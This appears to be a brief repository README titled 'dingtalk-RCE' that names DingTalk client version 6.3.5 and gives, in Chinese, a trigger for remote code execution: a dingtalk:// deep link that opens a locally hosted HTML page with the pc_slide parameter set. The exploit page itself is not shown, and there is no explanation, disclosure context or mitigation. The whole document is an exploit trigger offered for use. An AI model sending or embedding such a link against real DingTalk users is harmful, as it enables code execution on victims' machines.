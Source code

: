 # dingtalk-RCE

版本：6.3.5
触发方式：

```
dingtalk://dingtalkclient/page/link?url=127.0.0.1/1.html&pc_slide=true
```
